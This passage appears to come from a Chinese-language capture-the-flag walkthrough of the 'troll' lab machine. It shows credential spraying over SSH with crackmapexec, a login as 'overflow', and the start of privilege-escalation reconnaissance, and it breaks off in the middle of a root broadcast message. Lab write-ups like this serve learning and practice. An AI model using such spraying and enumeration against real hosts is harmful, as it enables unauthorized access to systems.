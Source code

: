     ```sql
    ##/this_folder_contains_the_password/Pass.txt
    Good_job_:)
    ```
    
    是账号密码，靶机扫描出了`22`端口，所以应该尝试`ssh`登录，但是web上还有一些让人感兴趣的路径没访问（别访问了，给你来一句 `U MAD？`）
    
4. 尝试SSH登录
    
    我一个一个试没事出来，别学我可以使用命令
    
    ```sql
    crackmapexec ssh 192.168.75.154 -u which_one_lol.txt -p Pass.txt --continue-on-success 
    ```
    
    依旧没破解出来，密码真的是`Good_job_:)`吗？有没有可能是`Pass.txt`
    
    `overflow + Pass.txt` 成功登录
    

## 提权

1. 查看权限
    
    ```sql
    $ whoami
    overflow
    //
    $ sudo -
    [sudo] password for overflow: 
    Sorry, user overflow may not run sudo on troll.
    //
    $ ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
        link/ether 00:0c:29:39:e9:62 brd ff:ff:ff:ff:ff:ff
        inet 192.168.75.154/24 brd 192.168.75.255 scope global eth0
           valid_lft forever preferred_lft forever
        inet6 fe80::20c:29ff:fe39:e962/64 scope link 
           valid_lft forever preferred_lft forever
    //
    $ uname -a
    Linux troll 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014 i686 i686 i686 GNU/Linux
    ```
    
2. 不一会root给我踢出来了，感觉有定时任务，但我没找到，因为不给访问
    
    ```sql
    Broadcast Message from root@trol                                               
            (somewhere) at 19:15 ...                                               
                                                                                   